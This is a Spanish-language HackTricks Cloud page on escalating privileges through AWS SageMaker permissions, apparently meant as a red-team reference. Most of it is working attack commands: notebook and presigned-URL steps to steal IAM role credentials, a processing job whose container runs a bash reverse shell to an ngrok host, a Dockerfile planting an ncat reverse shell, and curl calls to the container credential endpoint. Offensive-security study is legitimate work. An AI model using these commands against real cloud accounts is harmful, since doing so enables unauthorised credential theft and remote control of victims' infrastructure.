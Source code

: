 # AWS - Sagemaker Privesc

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF**, consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sigue**me en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de github de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## sagemaker

### `iam:PassRole`, `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

Comienza creando un cuaderno con el Rol IAM para acceder adjunto a él:
```
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::<account-id>:role/service-role/<role-name>
```
El resultado debería contener un campo `NotebookInstanceArn`, que contendrá el ARN de la instancia del cuaderno recién creada. Luego podemos usar la API `create-presigned-notebook-instance-url` para generar una URL que podamos usar para acceder a la instancia del cuaderno una vez esté lista:
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
Navegue a la URL con el navegador y haga clic en `Open JupyterLab` en la parte superior derecha, luego desplácese hacia abajo hasta la pestaña "Launcher" y en la sección "Other", haga clic en el botón "Terminal".

Ahora es posible acceder a las credenciales de metadatos del Rol IAM.

**Impacto Potencial:** Privesc al rol de servicio de sagemaker especificado.

### `sagemaker:CreatePresignedNotebookInstanceUrl`

Si hay **notebooks de Jupyter ya en ejecución** en él y puede listarlos con `sagemaker:ListNotebookInstances` (o descubrirlos de cualquier otra manera). Puede **generar una URL para ellos, acceder a ellos y robar las credenciales como se indica en la técnica anterior**.
```bash
aws sagemaker create-presigned-notebook-instance-url --notebook-instance-name <name>
```
**Impacto Potencial:** Escalada de privilegios al rol de servicio de sagemaker adjunto.

### `sagemaker:CreateProcessingJob,iam:PassRole`

Un atacante con esos permisos puede hacer que **sagemaker ejecute un processingjob** con un rol de sagemaker adjunto a él. El atacante puede indicar la definición del contenedor que se ejecutará en una instancia de cuenta ECS gestionada por **AWS**, y **robar las credenciales del rol IAM adjunto**.
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**Impacto Potencial:** Privesc al rol de servicio de sagemaker especificado.

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

Un atacante con esos permisos podrá crear un trabajo de entrenamiento, **ejecutando un contenedor arbitrario** en él con un **rol adjunto**. Por lo tanto, el atacante podrá robar las credenciales del rol.

{% hint style="warning" %}
Este escenario es más difícil de explotar que el anterior porque necesitas generar una imagen de Docker que enviará la shell reversa o las credenciales directamente al atacante (no puedes indicar un comando de inicio en la configuración del trabajo de entrenamiento).
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**Impacto Potencial:** Privesc al rol de servicio de sagemaker especificado.

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

Un atacante con esos permisos podrá (potencialmente) crear un **trabajo de entrenamiento de hiperparámetros**, **ejecutando un contenedor arbitrario** en él con un **rol adjunto** a él.\
_No lo he explotado por falta de tiempo, pero parece similar a los exploits anteriores, siéntete libre de enviar un PR con los detalles de la explotación._

# Referencias
* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation-part-2/)

<details>

<summary><strong>Aprende hacking de AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de github de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
